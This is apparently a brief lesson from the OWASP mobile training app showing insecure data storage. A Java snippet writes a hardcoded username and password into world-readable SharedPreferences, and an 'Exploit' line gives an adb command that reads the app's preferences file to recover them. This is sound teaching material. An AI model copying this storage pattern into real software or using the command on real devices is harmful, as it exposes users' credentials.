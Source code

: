 ## OMTG-DATAST-001-SHAREDPREFERENCES

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SharedPreferences.java

```
SharedPreferences.Editor edit = getSharedPreferences("key", 1).edit();

edit.putString("username", "administrator");
edit.putString("password", "supersecret");

edit.commit();
```

Exploit:

- `$ adb shell cat /data/user/0/sg.vp.owasp_mobile.omtg_android/shared_prefs/sg.vp.owasp_mobile.omtg_android_preferences.xml`

